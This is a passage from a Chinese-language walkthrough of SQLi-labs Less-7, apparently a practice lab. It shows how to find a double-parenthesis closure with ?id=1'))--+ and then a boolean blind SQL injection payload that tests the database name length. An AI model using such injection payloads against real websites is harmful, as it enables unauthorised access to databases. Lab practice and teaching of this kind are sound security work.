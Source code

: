 输入id=1')--+发现依然报错



+ 注入以下语句

~~~ shell
?id=1'))--+
~~~

![Less-7_6](./img/Less-7_6.PNG)

再试试是不是双括号注入<code>id=1'))--+</code>，发现页面显示正常。那么它的过关手法和前面就一样了选布尔盲注就可


+ 注入以下语句

~~~ shell
?id=1')) and length((select database()))>7--+
~~~
